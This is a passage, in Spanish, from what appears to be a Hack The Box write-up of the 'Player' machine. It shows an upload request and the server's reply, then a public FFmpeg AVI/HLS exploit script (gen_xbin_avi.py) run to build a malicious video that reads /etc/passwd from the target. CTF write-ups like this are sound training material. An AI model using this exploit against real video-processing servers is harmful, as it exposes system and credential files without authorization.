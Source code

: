 ```null
Content-Disposition: form-data; name="Submit"
Submit
------WebKitFormBoundaryCAC3aiq3wHV01Qdl--
```

Se está tramitando una petición contra ```upload.php```. Al enviar, reporta un link donde se puede acceder al archivo en formato ```AVI```

```null
Compressing done. You can access your media from below link: <br /><br /><a href="http:\/\/player.htb/launcher/7F2dcsSdZo6nj3SNMTQ1/uploads/1563842433.avi">Buffed Media</a>
```

En [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/CVE%20Ffmpeg%20HLS) mencionan una vulnerabilidad que permite la lectura de archivos locales de la máquina a través de la creación de un ```AVI``` malicioso

<img src="/writeups/assets/img/Player-htb/7.png" alt="">

Descargo el exploit desde [Github](https://github.com/neex/ffmpeg-avi-m3u-xbin/blob/master/gen_xbin_avi.py). Lo ejecuto y a modo de prueba indico el archivo ```/etc/passwd```

```null
python3 gen_xbin_avi.py file:///etc/passwd testing.avi
```

Al subirlo, se procesa y si hago click en el enlace para descargar, obtengo un ```AVI``` nuevo. Al estar en formato de vídeo, los datos no se ven directamente
